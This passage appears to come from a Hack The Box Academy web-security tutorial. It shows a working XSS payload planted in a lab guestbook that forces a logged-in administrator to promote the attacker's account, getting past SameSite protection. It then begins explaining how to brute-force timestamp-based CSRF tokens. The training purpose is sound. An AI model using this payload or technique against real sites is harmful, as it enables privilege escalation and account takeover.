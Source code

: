```
https://guestbook.vulnerablesite.htb/view.php
Alert box from guestbook.vulnerablesite.htb displaying the number 1 with an OK button.
```
Assuming the administrator monitoring the guestbook entries is also logged in to the main application at `https://vulnerablesite.htb`, we can abuse this XSS vulnerability to bypass the SameSite restriction and make the administrator promote our user to admin. To do that, we need to force the administrator user to send the corresponding POST request, which we can achieve with the following XSS payload:

```html
<script>
    var csrf_req = new XMLHttpRequest();
    var params = 'promote=htb-stdnt';
    csrf_req.open('POST', 'https://vulnerablesite.htb/profile.php', false);
	csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    csrf_req.withCredentials = true;
    csrf_req.send(params);
</script>
```
After posting our payload to the guestbook and waiting for a few seconds for the administrator user to access the page, we can see that the CSRF attack was successful, and our user has been promoted:

```
https://vulnerablesite.htb/profile.php
Welcome message for htb-stdnt; application under construction; user has administrator permissions with a 'Promote' option.
```

## Weak Token Brute-Force

As briefly discussed in the Session Security module, weak CSRF tokens may be bypassed to conduct a successful CSRF attack. Simple bypasses can occur when the CSRF token is not tied to a user session. In that case, an attacker accessing the vulnerable web application can add a valid CSRF token to the cross-origin request from their own session. The backend will then accept the cross-origin request from the victim's session, as the CSRF token is valid. Another example is when CSRF tokens are not entirely random, making them predictable. Depending on how the CSRF token is created (such as a hash of the username or current timestamp), we might be able to guess it in a single attempt or brute-force it using a payload.

This time, the web application has been protected with CSRF tokens such that a plain CSRF attack will not succeed anymore. However, if we obtain multiple CSRF tokens, we can deduce that it is an incrementing number, potentially something like a counter, and can thus possibly be brute-forced:

`HTTP GET request to /profile.php; response shows user permissions, hidden form with promote and CSRF values, and a 'Promote' button.`

If we analyze the CSRF tokens more closely, we can notice that the CSRF token is simply the current time as a Unix Timestamp. This makes the CSRF token predictable and allows us to create a working exploit to conduct a CSRF attack successfully. To do this, we must correctly guess the victim's CSRF token, i.e., the last time the victim accessed the `/profile.php` endpoint before accessing our payload. Getting the timing exactly right is difficult since we cannot dynamically brute-force the CSRF token using JavaScript code due to the restrictions posed by the default `SameSite Lax` policy. Thus, we need to hardcode the guessed CSRF token in our HTML form and update the value for each guess:
